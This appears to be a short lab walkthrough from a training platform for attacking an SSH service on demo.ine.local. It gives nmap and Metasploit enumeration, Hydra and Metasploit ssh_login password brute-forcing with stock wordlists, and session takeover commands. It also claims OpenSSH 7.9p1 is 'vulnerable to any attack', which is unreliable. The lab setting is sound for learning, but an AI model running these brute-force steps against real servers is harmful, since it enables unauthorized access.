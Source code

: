 ### **Enumerate**
##### Nmap
```
nmap -sV IP
```

##### Metasploit
```
use auxiliary/scanner/ssh/ssh_version
set rhosts demo.ine.local
run
```

Note: OpenSSH 7.9p1 is vulnerable to any attack, so try ***brute force***.

### **Exploit**
##### Brute Force the SSH 
**Hydra**
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt IP -t 4 ssh
```

**Metasploit**
```
use auxiliary/scanner/ssh/ssh_login
set rhosts demo.ine.local
set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
set pass_file /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set stop_on_success true
set verbose true
run
```

### Grab the Session 
```
sessions
session -i 1
```